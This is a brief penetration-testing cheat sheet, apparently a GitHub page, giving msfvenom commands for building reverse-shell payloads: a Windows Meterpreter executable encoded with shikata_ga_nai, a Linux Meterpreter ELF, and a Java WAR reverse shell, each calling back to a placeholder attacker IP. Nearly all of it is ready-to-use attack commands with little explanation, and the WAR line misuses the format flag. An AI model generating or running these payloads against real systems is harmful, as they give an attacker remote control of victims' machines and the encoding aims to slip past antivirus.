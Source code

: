 # MSFVenom Cheat Sheet
This sheet is for all of the use-case scenarios in which I have and will use MSFVenom during a penetration test for generating payloads for systems.
## WINDOWS
This section is for all Windows binary creation techniques used with MSFVenom
### Reverse Meterpreter
To make the victim server or system connect back to the attacker and send meterpreter to be spawned by the handler running on the attacker machine.
1. Generate the MSFVenom Reverse Meterpreter payload:

`./msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -b '\x00' -e x86/shikata_ga_nai -f exe -o /ftphome/shell.exe`

## LINUX
This section is for all LINUX binary creation techniques used with MSFVenom

`./msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=5555 -a x86 --platform=linux -f elf -b '\x00' -o shell.o`

## JAVA WAR:
`./msfvenom --platform=(OS TYPE) --payload=java/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -f shell.war`
